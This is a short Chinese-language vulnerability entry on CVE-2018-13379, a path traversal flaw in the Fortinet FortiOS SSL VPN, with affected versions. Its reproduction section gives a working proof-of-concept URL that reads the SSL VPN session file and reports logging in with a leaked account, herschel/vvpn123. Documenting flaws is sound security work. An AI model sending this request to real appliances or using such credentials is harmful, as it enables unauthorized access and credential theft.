 （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞
===============================================

一、漏洞简介
------------

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet
FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN
受此漏洞影响。

二、漏洞影响
------------

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

三、复现过程
------------

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![](./resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId24.png)

利用泄露的账户herschel/vvpn123成功登陆。

![](./resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId25.png)

![](./resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId26.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

参考链接
--------

> https://blog.csdn.net/limb0/article/details/102890683
